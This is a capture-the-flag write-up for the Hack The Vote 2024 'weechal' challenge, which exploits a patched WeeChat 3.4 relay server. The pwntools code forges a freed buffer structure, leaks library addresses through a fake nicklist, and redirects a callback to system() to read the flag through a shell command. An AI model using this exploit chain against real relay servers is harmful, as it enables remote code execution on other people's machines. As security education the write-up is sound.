```yaml
---
title: "Hack The Vote 2024: weechal"
date: 2024-11-10T10:40:00-05:00
type: posts
tags: ["Binary Exploitation", "CTF"]
---
```


Weechal was a binary exploitation challenge in Hack The Vote 2024, an election-themed computer security Capture the Flag (CTF) competition run by RPISEC.

I competed under the team name "worst" along with my friend Krishna and managed to solve this challenge on day two of the event. We were the second of five teams to solve it, missing first blood by a few hours.

## Challenge

The challenge was a modified build of version 3.4 of the [WeeChat IRC client](https://weechat.org/) that was running as a relay server using WeeChat's own protocol, which is described by the user manual as being *"used by remote interfaces to display and interact with WeeChat."* The [exact commands](https://github.com/RPISEC/HackTheVote/blob/master/2024/pwn/weechal/src/challenge) used to launch the challenge have us communicating with the relay through a Unix domain socket and set "ctf" as the password needed to connect.

In WeeChat, a *window* is an area of the screen that displays a *buffer*, which in turn is an object that contains text and to which text and commands can be sent by the user. For example, there is a buffer for each channel the user is chatting in as well as a main "core" buffer that always exists.

As documented in the [WeeChat Relay protocol specification](https://weechat.org/files/doc/devel/weechat_relay_protocol.en.html), the protocol involves passing raw pointers between the client and server. For example, if the client politely asks the server for a list of buffers by sending "`infolist buffer`", the server will happily reply with, among other information, the addresses of the [`t_gui_buffer`](https://github.com/weechat/weechat/blob/3.4/src/gui/gui-buffer.h#L73-L224) structures representing each buffer.

These addresses can also be used as arguments to other commands, such as `input 0x1234abcd hello`, which would attempt to send "hello" to the buffer at memory address `0x1234abcd`. Ordinarily the server makes sure that the pointers it's given are valid, but the challenge has been compiled with [this patch](https://github.com/RPISEC/HackTheVote/blob/master/2024/pwn/weechal/src/chal.patch) to remove some of these checks, allowing us to trick it into using any memory we like as if it were a `t_gui_buffer`. This capability can be used to gain arbitrary code execution and read the `flag.txt` file.


## Exploit

My approach was to create a buffer, learn its address with `infolist buffer`, and close it, freeing its memory. I filled the hole where the buffer used to be with the `/eval` command, using `${base_decode:16,...}` to send a hex-encoded string to avoid issues with null-termination.

It turns out that there is a [static buffer](https://github.com/weechat/weechat/blob/3.4/src/plugins/relay/relay-client.c#L580) in `relay.so` holding the raw bytes sent by the client before any parsing takes place. Using this would have eliminated the need to leak any heap addresses at all, but unfortunately I was not aware of it. Taking advantage of its existence is left as an exercise for the reader.

Let's walk through the exploit step by step, using the excellent [pwntools](https://github.com/Gallopsled/pwntools) library to make life easier. We start by connecting to and performing a handshake with the relay server, disabling compression for simplicity. Then the previously mentioned buffer is allocated, its address is leaked, and finally it is freed.

```python
from pwn import *

context.binary = "weechat/bin/weechat-headless"
libc = ELF("libc.so.6")
relay = ELF("weechat/lib/weechat/plugins/relay.so")

io = remote("weechal.chal.hackthe.vote", 1337)
io.sendline(b"handshake compression=off")
io.sendline(b"init password=ctf")

io.sendline(b"input core.weechat /buffer add asdf")
io.sendline(b"infolist buffer")
io.sendline(b"input core.weechat /buffer close asdf")
```

The messages the server sends back are in a binary format, but we can get the information we need without properly parsing it. See the protocol specification if you're interested in the details.

The first pointer received points to the `t_gui_buffer` for the main `core.weechat` buffer, though we won't actually be using it. Next up is a buffer created by the relay plugin, which will be useful later. Finally, we receive the address of the hole we've created.

```python
def read_pointer():
    io.recvuntil(b"pointer")
    io.recvuntil(b"ptr")
    return int(io.recvn(u8(io.recvn(1))), 16)


core_weechat = read_pointer()
relay_buffer = read_pointer()
hole = read_pointer()
log.info(f"{relay_buffer=:#x}")
log.info(f"{hole=:#x}")
```

We can now fill in the hole. The `eval ${base_decode:16...}` command will decode a hex-encoded string into a fresh heap allocation. By sending a string of the correct length, we can get this to be the same area of memory that our recently freed `t_gui_buffer` occupied and forge our own in its place.

```python
def fill_hole(*args):
    data = flat(*args, length=0x248 // 2 - 1, filler=p8(0))
    io.sendline(
        b"input core.weechat /eval ${base_decode:16," + data.hex().encode() + b"}"
    )
```

Being able to hex-encode the payload is nice because it sidesteps any issues with null termination, but the implementation of `base_decode` conservatively creates an allocation with the same size as the hex string we give it. We need to send a string of length `sizeof(t_gui_buffer) = 0x248` to fill the hole, but after being decoded our payload will only fill half of that. Luckily, this turns out not to be a problem as we don't need to control anything beyond the first half of `t_gui_buffer`.

After the `eval` command completes, the allocation will be freed again, though most of the data will remain intact. This actually works in our favor, allowing repeated uses of `eval` to reuse the same memory as many times as needed without extra effort.

As for what to send, let's examine the `t_gui_buffer` structure. Here are the relevant fields and their corresponding offsets as shown by the `ptype` command in `gdb`:

```
(gdb) ptype/ox struct t_gui_buffer
/* offset  |    size */  type = struct t_gui_buffer {
                           ...
/* 0x0028  |  0x0008 */    char *full_name;
                           ...
/* 0x00b8  |  0x0008 */    struct t_gui_nick_group *nicklist_root;
                           ...
/* 0x0100  |  0x0008 */    int (*input_callback)(const void *, void *, struct t_gui_buffer *, const char *);
/* 0x0108  |  0x0008 */    const void *input_callback_pointer;
                           ...
                               /* total size (bytes):  584 */
                         }
```

The plan is to point `input_callback` to the `system` function in the C standard library, point `input_callback_pointer` to the command to run, and then send an `input` command to our fake buffer to trigger a call to `input_callback`. Before that happens, `full_name` will be passed to `strdup`, so we also need to make sure it points to a valid address.

To locate `system` we need a way of reading from an arbitrary address. This can be accomplished with the `nicklist` command, which walks through a linked list of `t_gui_nick_group` structures starting at `nicklist_root`.

```
(gdb) ptype struct t_gui_nick_group
type = struct t_gui_nick_group {
    char *name;
    char *color;
    int visible;
    int level;
    struct t_gui_nick_group *parent;
    struct t_gui_nick_group *children;
    struct t_gui_nick_group *last_child;
    struct t_gui_nick *nicks;
    struct t_gui_nick *last_nick;
    struct t_gui_nick_group *prev_group;
    struct t_gui_nick_group *next_group;
}
```

We can craft a list with a single entry that has its `name` set to wherever we're interested in reading from. The data starting at that address and continuing until the first null byte will be found at offset `0x9e` in the response to `nicklist`.

```python
def leak(addr):
    fill_hole(
        {
            0x28: hole,  # full_name
            0xB8: hole + 0xC0,  # nicklist_root
            0xC0: [addr, hole, 1, 0, 0, 0, 0, 0, 0, 0, 0],
        }
    ),
    io.clean()
    io.sendline(f"nicklist {hole:#x}".encode())
    io.recvn(0x9E)
    return u64(io.recvn(8))
```

`system` can be found by starting at `relay_buffer->input_callback`, which holds the address of the `relay_buffer_input_cb` function in `relay.so`, then reading the address of a function in `libc.so` from `relay.so`'s global offset table.

```
relay.address = leak(relay_buffer + 0x100) - relay.symbols["relay_buffer_input_cb"]
libc.address = leak(relay.symbols["got.ctime"]) - libc.symbols["ctime"]
log.info(f"{relay.address=:#x}")
log.info(f"{libc.address=:#x}")
```

Now we can simply run `cat flag.txt` to read the flag, but since we're not connected to the server's standard output we won't receive anything back. The socket we are connected to will be inherited by the shell `system` spawns, though, and it's easy enough to redirect the output of `cat` to it. The command in the following code loops over all open file descriptors, trying each one. It's not very elegant, but this is CTF!

```python
fill_hole(
    {
        0x28: hole,  # full_name
        0x30: b"for fd in $(ls /proc/$$/fd); do cat flag.txt >&$fd; done",
        0x100: libc.symbols["system"],  # input_callback
        0x108: hole + 0x30,  # input_callback_pointer
    }
)
io.sendline(f"input {hole:#x} asdf".encode())
log.success(io.recvregex(b"(flag\{.*\})", capture=True)[1].decode())
```

The full exploit can be found [here](solve.py). Running it yields the flag: 

`flag{i_cant_believe_i_had_to_patch_out_checks_in_an_api_that_takes_pointers_over_the_wire}`
